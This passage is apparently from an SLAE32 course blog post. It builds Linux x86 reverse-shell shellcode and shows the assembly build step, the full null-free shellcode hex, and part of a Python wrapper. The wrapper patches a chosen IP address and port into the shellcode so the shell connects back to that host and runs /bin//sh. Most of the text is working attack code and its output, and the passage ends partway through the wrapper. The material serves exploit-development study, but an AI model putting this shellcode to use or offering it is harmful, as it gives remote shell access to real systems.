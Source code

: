 ```
root@kali:~/Documents/slae32/exercise_2# ../misc/build.sh first_reverse_shell
Assembling first_reverse_shell.asm
Linking first_reverse_shell.o
Done
```

At this point, I tested and confirmed that the reverse shell worked before moving on to the python wrapper that allows custom IP addresses and port values to be used within the reverse shell.

We can then dump the hex from the assembled object, and check we don’t have any NULL bytes within the output. The contents of dump_hex.sh can be seen in the first post:

```
root@kali:~/Documents/slae32/exercise_2# ../misc/dump_hex.sh first_reverse_shell
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xfb\\x31\\xc9\\x51\\xc6\\x04\\x24\\x7f\\xc6\\x44\\x24\\x03\\x01\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0\\x0b\\xcd\\x80"
```

## Wrapper to allow custom IP address and Port number:
Similar to the python wrapper used in exercise 1, this wrapper allows the user to specify their own port number. This number is then converted into hex values and placed within the correct position of our shellcode string. As well as the custom port number, I added functionality for custom IP addresses to be placed into the shellcode itself. I achieved this by taking the required instructions and their op codes from the 'objdump -d’ output and created four separate chunks of these instructions.

```
fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"       # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"   # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"  # movb   $0x1,0x2(%esp) (1)
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"   # movb   $0x1,0x3(%esp) (1)
```

As we can see, each string contains a tag with an integer in there, i.e [1], [2]. These tags are later replaced by the chunk of the target IP address in the correct order and in their hex value. I think we can already see where this is going, but let's continue. Once each one of these chunks has been correctly filled, the final shellcode has the tags '[i4][i3][i2][i1]' replaced with their required instructions and our final payload is complete. This is then output to the screen, ready to place in our C based injection script.

The complete python wrapper with tags that are replaced by user input can be seen below:

```
root@kali:~/Documents/slae32/exercise_2# cat wrapper.py 
import sys
import socket

shellcode = (
    "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3"
    "\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01"
    "\\x89\\xfb\\x31\\xc9\\x51[i4][i3][i2][i1]\\x51\\x66\\x68[p2][p1]"
    "\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0"
    "\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89"
    "\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02"
    "\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
    "\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0"
    "\\x0b\\xcd\\x80"
)

fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"         # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"     # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"    # movb   $0x1,0x2(%esp) (1)
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"     # movb   $0x1,0x3(%esp) (1)
```